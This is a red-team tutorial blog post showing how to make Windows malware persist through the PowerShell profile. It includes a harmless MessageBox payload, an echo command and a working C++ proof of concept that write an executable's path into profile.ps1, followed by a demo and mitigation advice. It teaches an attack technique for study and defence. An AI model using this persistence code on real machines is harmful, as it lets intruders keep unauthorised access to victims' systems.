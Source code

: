 ```yaml
---
title:  "Malware development: persistence - part 11. Powershell profile. Simple C++ example."
date:   2022-09-20 03:00:00 +0300
header:
  teaser: "/assets/images/70/2022-09-20_08-06.png"
categories:
  - malware
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/70/2022-09-20_08-06.png){:class="img-responsive"}    

This post is the result of my own research into one of the interesting malware persistence trick: via powershell profile.    

### powershell profile

A PowerShell profile is a powershell script that allows system administrators and end users to configure their environment and perform specified commands when a Windows PowerShell session begins.     

The PowerShell profile script is stored in the folder `WindowsPowerShell`:    

![pers](/assets/images/70/2022-09-20_08-29.png){:class="img-responsive"}    

Let's add the following code to a to the current user's profile file, that will be performed whenever the infected user enters a powershell console:    

`Z:\2022-09-20-malware-pers-11\hack.exe`    

I will demonstrate everything with a practical example and you will understand everything.    

### practical example

Firstly, create our "malicious" file:     

```cpp
/*
hack.cpp
evil app for windows
persistence via powershell profile
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/20/malware-pers-11.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

As usually it is just "meow-meow" messagebox.    

Compile it:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/70/2022-09-20_08-07.png){:class="img-responsive"}    

And we can run at victim machine for checking correctness:    

![pers](/assets/images/70/2022-09-20_09-03.png){:class="img-responsive"}    

Then we do this simple "trick":   

```powershell
echo Z:\2022-09-20-malware-pers-11\hack.exe > "%HOMEPATH%\Documents\windowspowershell\profile.ps1"
```

And finally, run powershell:    

```powershell
powershell -executionpolicy bypass
```

![pers](/assets/images/70/2022-09-20_08-16.png){:class="img-responsive"}    

![pers](/assets/images/70/2022-09-20_08-18.png){:class="img-responsive"}    

As you can see, our malicious logic executed as expected and powershell is the parent process of our messagebox. =^..^=    

I created a simple PoC code to automate this process:    

```cpp
/*
pers.cpp
windows persistence via Powershell profile
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/20/malware-pers-11.html
*/
#include <windows.h>
#include <stdio.h>
#include <strsafe.h>
#include <iostream>

int main(int argc, char* argv[]) {
  char path[MAX_PATH];
  char *homepath = getenv("USERPROFILE");
  char pspath[] = "\\Documents\\windowspowershell";
  char psprofile[] = "\\profile.ps1";
  char evil[] = "Z:\\2022-09-20-malware-pers-11\\hack.exe";
  DWORD evilLen = (DWORD)strlen(evil);

  StringCchCopy(path, MAX_PATH, homepath);
  StringCchCat(path, MAX_PATH, pspath);
  BOOL wd = CreateDirectoryA(path, NULL);
  if (wd == FALSE) {
    printf("unable to create dir: %s\n", path);
  } else {
    printf("successfully create dir: %s\n", path);
  }

  StringCchCat(path, MAX_PATH, psprofile);
  HANDLE hf = CreateFile(
    path,
    GENERIC_WRITE,
    0,
    NULL,
    CREATE_NEW,
    FILE_ATTRIBUTE_NORMAL,
    NULL
  );

  if (hf == INVALID_HANDLE_VALUE) {
    printf("unable to create file: %s\n", path);
  } else {
    printf("successfully create file: %s\n", path);
  }

  BOOL wf = WriteFile(hf, evil, evilLen, NULL, NULL);
  if (wf == FALSE) {
    printf("unable to write to file %s\n", path);
  } else {
    printf("successfully write to file evil path: %s\n", evil);
  }

  CloseHandle(hf);
  return 0;
}
```

The logic is simple, this script just create profile folder if not exists, then create profile file and update it.     

### demo

Let's go to see everything in action. Compile our PoC:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/70/2022-09-20_08-07_1.png){:class="img-responsive"}    

And run it on the victim's machine:    

```powershell
.\pers.exe
```

![pers](/assets/images/70/2022-09-20_08-09.png){:class="img-responsive"}    

![pers](/assets/images/70/2022-09-20_08-11.png){:class="img-responsive"}    

And when powershell session is started:        

![pers](/assets/images/70/2022-09-20_08-51.png){:class="img-responsive"}    

If we check it via Process Hacker:     

![pers](/assets/images/70/2022-09-20_08-53.png){:class="img-responsive"}    

`powershell.exe` is the parent process again as expected.     

As you can see everything is worked perfectly! =^..^=    

But there are the caveat. If powershell runned without execution policy bypass mode, this persistence trick not work in my case:    

![pers](/assets/images/70/2022-09-20_09-05.png){:class="img-responsive"}    

Also there are four places you can abuse the powershell profile, depending on the privileges you have:   

```powershell
$PROFILE | select *
```

![pers](/assets/images/70/2022-09-20_09-08.png){:class="img-responsive"}    

By storing arbitrary instructions in the profile script, PowerShell profiles present several chances for code execution. To avoid relying on the user to start PowerShell, you may use a scheduled job that executes PowerShell at a certain time.      

### mitigations

Enforce execution of only signed PowerShell scripts. Sign profiles to avoid them from being modified. Also you can avoid PowerShell profiles if not needed, for example via `-No-Profile` flag.    

This persistence trick is used by [Turla](https://attack.mitre.org/groups/G0010/) in the wild.    

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.

[Microsoft PowerShell profiles](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_profiles?view=powershell-7.2)       
[MITRE ATT&CK. Event Triggered Execution: PowerShell Profile](https://attack.mitre.org/techniques/T1546/013/)     
[Turla](https://attack.mitre.org/groups/G0010/)     
[source code on github](https://github.com/cocomelonc/2022-09-20-malware-pers-11)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
